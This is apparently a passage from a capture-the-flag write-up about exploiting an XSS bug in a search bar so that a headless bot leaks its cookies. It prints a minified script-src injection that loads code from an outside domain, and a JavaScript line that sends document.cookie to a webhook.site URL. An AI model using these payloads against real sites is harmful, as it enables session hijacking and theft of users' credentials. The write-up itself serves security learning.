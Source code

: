 ![XSS fires on the search bar!](img/xss_works_on_search.png)

Wow, it worked???!!! I uncovered a [zero-day vulnerability](https://en.wikipedia.org/wiki/Zero-day_(computing)) in a JavaScript library, which was an exhilarating and remarkable discovery.
Now, let's try to put this into practice: we want the `headless` server to access a site with the `document.cookie` appended to the URL as a parameter. For this, we can use [Webhook](https://webhook.site), where we can generate a unique URL that will give us information about the request that accessed that unique URL (I explained what Webhook does a little further in my Fileshare writeup). But, there's a certain limitation: Our XSS can't be longer than 50 characters, because otherwise it would be discarded. 
I approached a fellow student at my university and requested access to his domain, as he owned a very short domain. Fortunately, he agreed to share it with me, which made me quite pleased. Afterwards, I began searching for some compact XSS solutions. After some searching, I came across this [excellent article](https://medium.com/taptuit/minifying-xss-f17d7dc241cf). In the article, the author presented this XSS snippet:

```html
<script src=//a.io>
```

He elaborated that we could incorporate JavaScript code from external sources by appending `src` to the `script` tag. Additionally, he mentioned that we could omit the `http:` or `https:` prefixes, as the browser automatically defaults to using the protocol of the web server, which it includes at the beginning of the domain.
Now, on a machine hosted on the domain of my fellow student, I crafted a file named `x.js` with the following content:

```javascript
window.location="https://webhook.site/8bb7d716-2b5e-43e4-a93a-9858c832ce0b?c=".concat(document.cookie)
```

